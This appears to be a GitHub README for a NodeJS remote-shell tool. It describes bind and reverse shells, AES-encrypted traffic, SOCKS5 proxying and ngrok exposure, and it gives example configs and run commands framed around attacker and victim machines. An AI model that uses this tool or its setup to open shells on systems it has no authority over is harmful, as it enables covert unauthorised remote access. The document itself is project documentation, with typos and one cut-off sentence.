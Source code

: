 
# JS-Shell
Netcat-lite NodeJS shell. A little side project I've been tinkering around in my freetime. Also as a way to expand my understanding about byte level encryption and networking.

* Built-in, byte level AES-256 encryption
* Bind connection
* Reverse connection
* Socks5 Proxy support
* Ngrok Tunneling

As a feature, all TCP bytes are encrypted with AES-256. However, nothing's stopping you from using a VPN or a proxy. Speaking of proxies, the client component supports socks5 proxying as well - although I have'nt got TOR proxying worked out yet..
Lastly, if configured, the server can spin up an ngrok endpoint to serve shells pubicly.

# Usage
The setup for the client/server will change according to the operation mode.
- Bind - Server is set up at the victim's system. Attacker(client) connects to the server and opens a shell.
- Reverse - Server is set up at the attacker's side. Victim machine running the client serves the shell to the attacker.

## Install dependencies
```
npm install
```

## Server
### Configuration
A JSON config file is required for the server to operate. Keys used in the server config:
* `aes_password`: String. AES Cipher key. Must have 32 alphanumeric characters. 
* `aes_iv`: String. AES Initalization Vector. Must have 16 alphanumeric characters.
* `listen_address`: String. Local IP address.
* `listen_port`: Number. Port number.
* `use_ngrok`: Boolean. Use `true` or `false` if exposing an ngrok endpoint.
* `ngrok_authtoken`: String. ngrok authtoken.

It should be noted that the `aes_password` and `aes_iv` values MUST be the same for the server and client configs.

#### Example config
```
// server_config.json

{
    "aes_password": "cA3TcR9t3kfW9vYM9D2X5NJEzrSzfEAx", 
    "aes_iv": "zP9joVoh7tguTwr4",
    "listen_address": "0.0.0.0",
    "listen_port": 4444,
    "use_ngrok": true,
    "ngrok_authtoken": "token"
}
```
### Start server
Running the server in its required op mode is done in these methods. It should be noted that if the op mode is not specified, it will be defaulted to the Bind mode.
```
Options:
      --help        Show help                                          [boolean]
      --version     Show version number                                [boolean]
  -o, --opmode      Op mode. Accepted values "[b]ind or [r]everse mode. Defaults
                    to bind.
                          [string] [required] [choices: "b", "r"] [default: "b"]
  -c, --configfile  Config file for connection details       [string] [required]

Bind mode
$ node server.js -o b -c server_config.json

Reverse mode
$ node server.js -o r -c server_config.json
```

## Client
In this aspect, the client component acts as th
### Configuration
Keys used in the client config:
* `aes_password`: String. AES Cipher key. Must have a 32 alphanumeric characters.
* `aes_iv`: String. AES Initalization Vector. Must have a 16 alphanumeric characters.
* `remote_address`: String. Remote IP address.
* `remote_port`: Number. Remote Port number.
* `use_socks_proxy`: Boolean. Use `true` or `false` if using a proxy. Supports Socks5 only.
* `proxy_address`: String. Proxy IP address.
* `proxy_port`: Number. Proxy Port number.

It should be noted that the `aes_password` and `aes_iv` values MUST be the same for the server and client configs.

#### Example config
```
// client_config.json

{
    "aes_password": "cA3TcR9t3kfW9vYM9D2X5NJEzrSzfEAx",
    "aes_iv": "zP9joVoh7tguTwr4",
    "remote_address": "192.168.1.100",
    "remote_port": 4444,
    "use_socks_proxy": true,
    "proxy_address": "192.168.1.101",
    "proxy_port": 1080
}
```
### Start client
```
Options:
      --help        Show help                                          [boolean]
      --version     Show version number                                [boolean]
  -o, --opmode      Op mode. Accepted values "[b]ind or [r]everse mode. Defaults
                    to bind.
                          [string] [required] [choices: "b", "r"] [default: "b"]
  -c, --configfile  Config file for connection details       [string] [required]
  
Bind mode
$ node client.js -o b -c client_config.json

Reverse mode
$ node client.js -o r -c client_config.json
```

# Compiling
Use compilers such as [nexe](https://github.com/nexe/nexe) or [pkg](https://github.com/vercel/pkg) to package the server and client into their own executables.

# Notes
* Running the server/client components on different OSes will yield different Clis. I could expand this to support more types of clis in the future.
  * Windows - cmd
  * Linux/Android(termux) - bash

# Known Bugs
- As AES encryption and decryption happens on the byte level, translation errors are possible. This is especially prevalent on commands with very long outputs like `netstat -anop tcp` or `net users` on windows. Linux on the other hand is minimal.
- I've not gotten socks proxies that use TOR to work with this setup.


# Experimenal (not implemented)
Also experimented with RSA encryption in the early development stages of this project. Dig into the `crypt.js` to find out more. of course, that's not to say I may implement this iun the future..